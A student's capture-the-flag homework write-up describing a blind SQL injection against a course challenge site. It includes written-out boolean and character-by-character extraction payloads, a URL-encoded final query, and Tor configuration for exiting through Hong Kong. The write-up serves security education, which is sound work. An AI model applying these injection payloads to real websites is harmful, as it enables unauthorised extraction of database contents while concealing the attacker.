 ```yaml
---
title: Tormity Writeup
category: memo
slug: tormity-writeup
date: 2014-10-06
---
```

Security Programming Homework 1-1

## Get Flags

According to the first hint: "Try to capture as more flags as you can.", I
think we should use to Tor to visit the website. But for tests and simlicity,
I decided to use Chrome extension which called "Hola". It is a cute tool that
help you surfing the Internet through VPNs.

Although "Hola" is convenient, we should use Tor for better anonimity, like
atdog said.

## SQL injection Tests

According to the second hint, I believe there are vulnerabilities about SQL
injection in the website. So I tried to append following query strings, assume
the base url is `http://tor.atdog.tw/news/1`

```sql
'
`
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
...
```

Failed. We only got "500 Internal Server Error" page all the time. Try another
method

```sql
AND 1=1
AND 1=2
```

Something happened! The first url returned the article but the second did not.
So I guess I can use this feature to identify something, e.g. flag.

The second hint told me that there is a flag in the "flags" table and its
column name is called "flag". Chances are there could be multiple rows in that
table. I want to know how many rows are there in the "flags" table

```sql
AND EXISTS(SELECT 1 FROM flags LIMIT 0, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 1, 1)
AND EXISTS(SELECT 1 FROM flags LIMIT 2, 1)
```

Using the "limit" SQL command to limit the lines of returned row(s). We knew
there are two rows in the "flags" table from the above tests. But which one is
the real flag? According to my tests, the actual flag is the second one.

The meaning of "blind SQL injection" is that we can only get true or false as
a result at one time. But how can we capture the flag? One of the approaches is
to narrow down the number of candidates of a single character by asking the
webpage "larger or smaller" question. After located the exact character, move
on to the next character. Repeat this action, the flag will show up

```sql
AND EXISTS(SELECT 1 FROM flags WHERE ORD(SUBSTR((SELECT flag FROM flags LIMIT 1,1), 1)) <= 79)
```

Finally, our sophisticated query string which will be appended to the base url is

```sql
%20and%20exists(select%201%20from%20flags%20where%20ord(substr((select%20flag%20from%20flags%20limit%201,1),%201))%20%3C=%2079)
```

## Using Tor

The hint told me that I should connect to the webpage with Hong Kong IP. To
satisfy this restriction and to use python script doing this boring job for me,
Tor must be setup.

First we need to install Tor via Homebrew `brew install tor`. After the
installation was done, you will see the caveats shown on the terminal

```bash
To have launchd start tor at login:
    ln -sfv /usr/local/opt/tor/\*.plist ~/Library/LaunchAgents
Then to load tor now:
    launchctl load ~/Library/LaunchAgents/homebrew.mxcl.tor.plist
```

The default Tor configuration file is at `/usr/local/etc/tor/torrc.sample`.
We just need to add two lines of configuration in `${HOME}/.torrc`

```text
StrictNodes 1
ExitNodes {hk}
```

Then all of our connections will exit from Hong Kong.

## Writing Python Script

### Environment

I use Python 2.7.8 to write the script, and import some modules for automatic
login and using SOCKS proxy

```bash
pyenv virtualenv 2.7.8 secprog-2.7.8
pyenv local secprog-2.7.8
pip install mechanize PySocks
```

### Key Points

-  Using python mechanize library to implement login action
-  Using python PySocks library to make all connections go through Tor network
  (SOCKS proxy)

## Flag

The flag is `SECPROC{Hey,D0n't_f0rg3t_g0_thr0ugh_an0nymity_n3tw0rk.}`

## References

-  [Tor Country Codes - B3RN3D][1]
-  [tutorial SQL injection - LampSecurity CTF 6][2]
-  [MySQL - String Functions][3]
-  [Python's mechanize to login like a user][4]
-  [stack overflow - using tor as a SOCKS5 proxy with python urllib2 or mechanize][5]
-  [stack overflow - python re.sub group: number after \number][6]

[1]: https://b3rn3d.herokuapp.com/blog/2014/03/05/tor-country-codes
[2]: http://www.infond.fr/2010/06/tutorial-sql-injection-lampsecurity-ctf.html
[3]: http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_substr
[4]: http://simplapi.wordpress.com/2012/04/20/pythons-mechanize-login-like-a-user/
[5]: http://stackoverflow.com/questions/14449974/using-tor-as-a-socks5-proxy-with-python-urllib2-or-mechanize
[6]: http://stackoverflow.com/questions/5984633/python-re-sub-group-number-after-number
